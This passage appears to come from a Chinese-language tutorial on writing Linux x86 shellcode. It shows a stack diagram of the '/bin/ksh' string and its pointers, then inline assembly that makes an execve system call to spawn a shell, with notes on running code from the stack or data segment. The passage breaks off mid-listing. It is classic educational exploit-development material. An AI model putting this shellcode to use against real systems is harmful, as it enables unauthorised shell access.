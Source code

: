 14. 观察当前堆栈

当上述过程执行到第7步时，我们可以看一下这时堆栈中的情况
假设字符串的地址是0xbfffc5f0:

   |........ |
   |---------|0xbfffc5f0  %esi         字符串地址
   |   '/'   |
   |---------|
   |   'b'   |
   |---------|
   |   'i'   |
   |---------|
   |   'n'   |
   |---------|
   |   '/'   |
   |---------|
   |   'k'   |
   |---------|
   |   's'   |
   |---------|
   |   'h'   |
   |---------|0xbfffc5f8  0x8(%esi) null字节的地址
   |    0    |
   |---------|0xbfffc5f9  0x9(%esi) 存放字符串指针的地址 即name[0] 大小是4个字节
   |   0xbf  |
   |---------|注: 这四个字节实际可能并不是按顺序存储的，也许是按0xf0c5ffbf的顺序。
   |   0xff  |    我没有验证过，只是为了说明问题，简单的这么写了一下。
   |---------|
   |   0xc5  |
   |---------|
   |   0xf0  |
   |---------|0xbfffc5fd  0xd(%esi) 空串的地址 即name[1] 大小是4个字节
   |    0    |
   |---------|
   |    0    |
   |---------|
   |    0    |
   |---------|
   |    0    |
   |---------|
   | ....... |

15. vi shellcodeasm.c

为了证明它能正常工作，我们必须编译并运行它。但这里有个问题，我们的代码要自己修
改自己，而大部分操作系统都将代码段设为只读，为了绕过这个限制，我们必须将我们希望
执行的代码放到堆栈或数据段中，并且转向执行它，可以将代码放到数据段的一个全局
数组中。首先需要得到二进制码的16进制形式，可以先编译，然后用GDB得到我们所要的东西

int main ()
{
    __asm__
    ("
        jmp    0x2a                     # 3 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x9(%esi)           # 3 bytes
        movb   $0x0,0x8(%esi)           # 4 bytes
        movl   $0x0,0xd(%esi)           # 7 bytes
        movl   $0xb,%eax                # 5 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x9(%esi),%ecx           # 3 bytes
        leal   0xd(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        movl   $0x1, %eax               # 5 bytes
        movl   $0x0, %ebx               # 5 bytes
        int    $0x80                    # 2 bytes